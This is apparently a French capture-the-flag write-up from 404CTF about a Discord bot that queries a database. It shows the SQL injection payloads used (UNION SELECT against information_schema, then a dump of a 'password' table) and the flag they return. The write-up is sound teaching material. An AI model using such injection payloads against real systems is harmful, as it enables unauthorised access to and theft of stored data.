

## MISC / Un utilisateur suspicieux

<p align="center">
  
</p>


### Look around

Un challenge amusant contre un bot discord qui apparemment interroge pour nous une base de données.


Assez vite nous découvrons :

```bash
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
!debug -> debug command
```

### Exploit

Je vais passer tous les tests pour cerner le SGBD en question, mais `_` et `%` retourne des résultats, nous devons donc être dans une requête du genre :

`SELECT * FROM table WHERE xxx LIKE %user_input%`

Dans un premier temps on récupère des informations sur la tables, puis sur le premier flag qui nous est demandé :

```bash
!chercher _%" UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables#

>ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_FT_CONFIG,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,USER_STATISTICS,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_FT_DELETED,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_SYS_TABLESPACES,INNODB_SYS_INDEXES,INNODB_BUFFER_PAGE,INNODB_SYS_VIRTUAL,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_LOCK_WAITS,THREAD_POOL_STATS,Privileged_users,data,password


!chercher _%" UNION SELECT * FROM password#
>404CTF{D1sc0rd_&_injection_SQL}
```
